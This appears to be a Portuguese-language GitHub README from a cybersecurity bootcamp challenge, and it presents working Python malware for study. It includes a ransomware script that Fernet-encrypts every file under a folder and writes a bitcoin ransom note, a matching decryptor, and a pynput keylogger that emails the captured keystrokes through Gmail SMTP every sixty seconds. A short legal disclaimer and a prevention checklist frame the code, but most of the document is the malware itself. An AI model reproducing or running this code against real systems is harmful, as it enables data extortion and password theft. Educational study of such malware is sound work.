

# Projeto desafio - Ransomware e Keylogger

<p align="justify">
Este projeto é parte do desafio de projeto do Bootcamp Riachuelo + DIO — Cybersecurity, tem como objetivo entender como malwares como Ransomware e Keylogger operam e como se proteger contra esses malwares.
</p>

## ⚠️ Aviso legal e ético

<p align="justify">
Este projeto foi feito para fins exclusivamente educacionais em ambiente controlado para estudos em segurança da informação.
Utilize estes códigos em ambientes controlados, nunca utilize para fins maliciosos.
</p>

## 1. Simulando um Ransomware com Python

<p align="justify">
O Ransomware é um software malicioso que critografa os dados do usuário e pede um resgate (pagamento) geralmente em criptomoedas para liberá-los. 
</p>

```python
from cffi.ffiplatform import LIST_OF_FILE_NAMES
from cryptography.fernet import Fernet
import os

# Gerar uma chave criptografica e salvar

def gerar_chave():
    chave = Fernet.generate_key()
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)

# Carregar a chave salva

def carregar_chave():
    return open("chave.key", "rb").read()

#Criptografar um unico arquivo

def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados = f.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_encriptados)

# Encontrar arquivos para critografar

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

# Mensagem de resgate

def criar_mensagem_resgate():
    with open("Leia_isso.txt", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envie 1 bitcoin para o endereço x e envie o comprovante!\n")
        f.write("Depois disso enviaremos a chave para você recuperar seus dados")

# Execução

def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("teste_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos critografados!")

if __name__ == "__main__":
    main()
```

## Descriptografando os arquivos 

<p align="justify">
Este código refere-se a descriptografia dos arquivos. É o processo inverso do Ransomware. Ele reverte o que o Ransomware.py fez, percorrendo a paste e lê os aqruivos que foram criptografados, utilizando a chave (chave.key) para restaurar os arquivos.
</p>

```python
from cryptography.fernet import Fernet
import os

def carregar_chave():
    return open("chave.key", "rb").read()

def descriptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
        dados_descriptografados = f.decrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_descriptografados)

def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

def main():
    chave = carregar_chave()
    arquivos = encontrar_arquivos("teste_files")
    for arquivo in arquivos:
        descriptografar_arquivo(arquivo, chave)
    print("Arquivos restaurados com sucesso!")

if __name__ == "__main__":
    main()
```

## 3. Simulando um Keylogger
<p align="justify">
O Keylogger é uma ferramenta de software ou hardware projetada para registrar o que o usuário está digitando em um computador. Frequentemente usado para fins maliciosos por cibercriminosos para roubar senhas e dados confidenciais sem o conhecimento do usuário. Também pode ser utilizado para supervisão de funcionários ou estudos de interação.
</p>

```python
from asyncio import start_server

from pynput import keyboard
import smtplib
from email.mime.text import MIMEText
from threading import Timer

log = ""
#configurações de email
EMAIL_ORIGEM = "seu_email_de_teste@gmail.com"
EMAIL_DESTINO = "seu_email_de_teste@gmail.com"
SENHA_EMAIL = "digite a senha gerada"

def enviar_email():
    global log
    if log:
        msg = MIMEText(log)
        msg['SUBJECT'] = "Dados capturados pelo keylogger"
        msg['From'] = EMAIL_ORIGEM
        msg['To'] = EMAIL_DESTINO

        try:
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login(EMAIL_ORIGEM, SENHA_EMAIL)
            server.send_message(msg)
            server.quit()
        except Exception as e:
            print("Erro ao enviar", e)

        log = ""

    #agendar o envio a cada 60 segundos
    Timer(60, enviar_email).start()

def on_press(key):
    global log
    try:
        log+= key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log+=" "
        if key == keyboard.Key.enter:
            log += "\n"
        if key == keyboard.Key.backspace:
            log+="[<]"
        else:
            pass #ignora ctrl, shift, etc

#inicia o keylogger

with keyboard.Listener(on_press=on_press) as listener:
    enviar_email()
    listener.join()
```

<p align="center">
    
</p>

## 🛡️ Como evitar

As boas práticas de prevenção inclui:

- Sempre atualizar o sistema operacional
- Utilizar antivírus
- Evitar baixar arquivos e executar programas de origem desconhecida
- Sempre utilizar autenticação de dois fatores
- Sempre fazer backups para evitar a perda dos arquivos e dados


